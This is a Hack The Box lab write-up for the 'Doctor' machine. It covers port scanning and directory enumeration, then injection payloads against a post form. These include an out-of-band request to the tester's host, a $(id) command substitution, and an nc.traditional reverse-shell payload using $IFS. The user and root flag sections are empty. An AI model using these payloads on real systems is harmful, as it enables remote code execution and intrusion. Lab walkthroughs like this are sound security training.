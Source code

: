 ## Default Information
IP Address: 10.10.10.209\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our /etc/hosts file.

```
10.10.10.209    doctor.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo masscan -p1-65535,U:1-65535 10.10.10.209 --rate=1000 -e tun0 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-11-13 02:29:53 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 8089/tcp on 10.10.10.209                                  
Discovered open port 80/tcp on 10.10.10.209                                    
Discovered open port 22/tcp on 10.10.10.209
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0) | Open |
| 80	| HTTP | Apache httpd 2.4.41 ((Ubuntu)) | Open |
| 8089	| SSL/HTTP | Splunkd httpd | Open |

### Whatweb

From the whatweb output on port 80, we are able to find another host, ```doctors.htb```

```
[ Email ]
	Extract email addresses. Find valid email address and
	syntactically invalid email addresses from mailto: link
	tags. We match syntactically invalid links containing
	mailto: to catch anti-spam email addresses, eg. bob at
	gmail.com. This uses the simplified email regular
	expression from
	http://www.regular-expressions.info/email.html for valid
	email address matching.

	String       : info@doctors.htb
```

We will then add this host to our /etc/hosts file

```
10.10.10.209    doctors.htb doctor.htb
```

### Gobuster
We will first use Gobuster to find the endpoints at http://doctor.htb on port 80. However, I was unable to find any output that catches my attention.

```
http://10.10.10.209:80/.htpasswd.txt        (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess            (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.aspx            (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.jsp             (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.txt        (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta                 (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.html       (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.txt             (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.php        (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.html            (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.asp        (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.php             (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.aspx       (Status: 403) [Size: 277]
http://10.10.10.209:80/.hta.asp             (Status: 403) [Size: 277]
http://10.10.10.209:80/.htaccess.jsp        (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd.html       (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd.php        (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd.asp        (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd.aspx       (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd.jsp        (Status: 403) [Size: 277]
http://10.10.10.209:80/.htpasswd            (Status: 403) [Size: 277]
http://10.10.10.209:80/about.html           (Status: 200) [Size: 19848]
http://10.10.10.209:80/blog.html            (Status: 200) [Size: 19848]
http://10.10.10.209:80/contact.html         (Status: 200) [Size: 19848]
http://10.10.10.209:80/css                  (Status: 301) [Size: 310] [--> http://10.10.10.209/css/]
http://10.10.10.209:80/departments.html     (Status: 200) [Size: 19848]
http://10.10.10.209:80/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.209/fonts/]
http://10.10.10.209:80/images               (Status: 301) [Size: 313] [--> http://10.10.10.209/images/]
http://10.10.10.209:80/index.html           (Status: 200) [Size: 19848]
http://10.10.10.209:80/index.html           (Status: 200) [Size: 19848]
http://10.10.10.209:80/js                   (Status: 301) [Size: 309] [--> http://10.10.10.209/js/]
http://10.10.10.209:80/server-status        (Status: 403) [Size: 277]
http://10.10.10.209:80/services.html        (Status: 200) [Size: 19848]

```

Next, we will use Gobuster to find the endpoints of https://doctor.htb at port 8089, but there are no interesting findings.

```
https://10.10.10.209:8089/robots.txt           (Status: 200) [Size: 26]
https://10.10.10.209:8089/robots.txt           (Status: 200) [Size: 26]
https://10.10.10.209:8089/services             (Status: 401) [Size: 130]
https://10.10.10.209:8089/v1                   (Status: 200) [Size: 2178]
https://10.10.10.209:8089/v4                   (Status: 200) [Size: 2178]
https://10.10.10.209:8089/v2                   (Status: 200) [Size: 2178]
https://10.10.10.209:8089/v3                   (Status: 200) [Size: 2178]
```

Lastly, we will use Gobuster to find the endpoints of http://doctors.htb. For this site, there are a few interesting endpoints such as /archive and /login, which we will discover in depth later.

```
http://doctors.htb/login                (Status: 200) [Size: 4204]
http://doctors.htb/archive              (Status: 200) [Size: 101]
http://doctors.htb/home                 (Status: 302) [Size: 245] [--> http://doctors.htb/login?next=%2Fhome]
http://doctors.htb/register             (Status: 200) [Size: 4493]
http://doctors.htb/account              (Status: 302) [Size: 251] [--> http://doctors.htb/login?next=%2Faccount]
http://doctors.htb/logout               (Status: 302) [Size: 217] [--> http://doctors.htb/home]
http://doctors.htb/reset_password       (Status: 200) [Size: 3493]
http://doctors.htb/server-status        (Status: 403) [Size: 276]
```

### Web-content discovery

Exploring http://doctors.htb/register, we discover a sign up page to register a user to login to the site. However, we realize that the user will only be valid for 20mins. 

![Sign up page](https://github.com/joelczk/writeups/blob/main/HTB/Images/Doctor/signup.png)

On the /home page, we realize that we are able to create a new post, and the creation of this new post will be reflected on our /archive page.

![Creating new post](https://github.com/joelczk/writeups/blob/main/HTB/Images/Doctor/new_post.png)

![Page archive](https://github.com/joelczk/writeups/blob/main/HTB/Images/Doctor/archive.png)

Looking at the response at /archive, I figured out that the website might be vulnerable to an XXE injection, and decided to try an OOB XXE injection using the payload ```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.5:4000/test"> ]>```

![XXE Injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Doctor/xxe_injection.png)

Next, we will try to do a code injection by modifying the payload to ```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.5:4000/$(id)"> ]>``` and the output is reflected on our server

![code injection](https://github.com/joelczk/writeups/blob/main/HTB/Images/Doctor/code_injection.png)
## Exploit
### Obtaining reverse shell

To obtain a reverse shell, we can modify the payload to ```<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.16.5:4000/$(nc.traditional$IFS-c$IFS/bin/bash$IFS'10.10.16.5'$IFS'3000')"> ]>```
### Obtaining user flag
### Obtaining root flag
